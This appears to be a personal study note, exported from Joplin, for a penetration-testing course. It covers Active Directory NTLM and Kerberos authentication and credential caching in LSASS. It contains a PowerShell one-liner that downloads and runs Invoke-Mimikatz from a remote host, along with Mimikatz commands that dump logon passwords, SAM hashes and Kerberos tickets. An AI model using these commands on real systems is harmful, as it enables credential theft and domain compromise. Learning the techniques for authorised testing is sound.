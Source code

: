 AD Authentication

Wdigest - for Windows 7 or older PCs

Kerberos / NTLM for most auths

# NTLM Auth

![e2155df5f3948abfadb945e87d84fd1c.png](:/88b191cee9214cbe9854fa533faa4822)

By using cracking software like Hashcat, it is possible to test over 600 billion NTLM hashes every second (with GPU)

# Kerberos Auth

![2c5fd6cf0962a7af173aa0369cd27f98.png](:/9eeddfd4231a49a084e0cfb4addb25f6)

![95e1c64d696abc786e3456642dae8836.png](:/4cbbd114988a4da2a11abd47b2709449)

## Cache Credential Storage and Retrieval

Password hashes are stored in LSASS

LSASS is part of OS and runs on SYSTEM, need SYSTEM permissions to gain access to hashes stored on target

Therefore, we will require local privilege escalation. Moreover, the data structures used to store the hashes are not publicly documented and they are also encrypted with an LSASS-stored key.

![2eb2532b72d4611cd375f9fbf2a6fd80.png](:/1db3c439995e436393c884255f3b1567)

<ins>Invoke Mimikatz in memory using PowerSploit</ins>

The Invoke-Mimikatz can be found in /usr/share/windows-resources/powersploit/Exfiltration/Invoke-Mimikatz.ps1

> powershell -nop "IEX(New-Object Net.WebClient).downloadString('[http://10.10.14.9:8000/Invoke-Mimikatz.ps1](http://10.10.14.9:8000/ipw.ps1)')"
> 
> Invoke-Mimikatz -DumpCreds #Dump creds from memory
> 
> Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"'

For the PWK section, we need to get the hashes dump of user credentials

> mimikatz.exe
> 
> privilege::debug
> 
> sekurlsa::logonpasswords

![dd5c04511f086bbfc7a55d97e9c768fa.png](:/36279bdefea541bcb50f00522fb77916)

## Tickets 

We can also retrieve stored TGT in LSASS using mimikatz for Kerberos Auth

> sekurlsa::tickets

![910d606642ed6913a3492f2fe2c4437d.png](:/beffd09900234cd595551dd327c04c8e)

TGS is specific to a particular resource. TGT can be used to request for a specific TGS that targets the resources we want

id: f460052c6a4b4bd4bf4e2f845c5e0215
parent_id: ac0bd99a1a324cb6a297fd05a2b92039
created_time: 2022-01-30T15:12:36.076Z
updated_time: 2022-01-30T16:14:55.617Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-30T15:12:36.076Z
user_updated_time: 2022-01-30T16:14:55.617Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1